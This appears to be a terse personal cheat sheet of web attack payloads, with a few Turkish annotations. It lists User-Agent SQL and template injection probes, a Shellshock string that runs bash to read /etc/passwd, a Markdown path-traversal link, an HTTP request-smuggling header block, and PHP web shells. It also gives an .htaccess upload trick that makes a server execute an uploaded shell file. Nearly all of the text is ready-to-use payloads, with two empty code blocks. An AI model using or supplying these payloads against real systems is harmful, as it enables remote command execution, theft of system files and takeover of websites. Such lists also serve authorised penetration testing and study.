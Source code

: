 # HAND BOOK

User-Agent Command Injection
```
 1))%20or%20sleep(20)--
```
```
'">{{7*7}}${2*2}
```
```
() { : ; }; echo ; /bin/bash -c "cat /etc/passwd"
```

User-Agent SQL Injection
```

```

MarkDown
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../../etc/passwd)
```


Chunked diyoruz ve content type ini ayarliyoruz. ayrilmis sorgulari olacagini ve 0 ile de ikinci bir get gonderecegimizi soyluyoruz:
```header
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```


```
data://text/plain;base64,PD9waHAgZWNobygnYWJoaXNoZWttb3JsYTo6OicuIGdldF9jdXJyZW50X3VzZXIoKSAuJzo6OmFiaGlzaGVrbW9ybGEnKTs/Pg==
```

Payload php
```
<?php system($_GET['cmd']); ?>
```
```
<?php echo file_get_contents('/etc/passwd'); ?>
```
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

Addtype application/x-httpd-php .shell
```

```
Content-Disposition: form-data; name="avatar"; filename="shell.shell"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
```

```

```
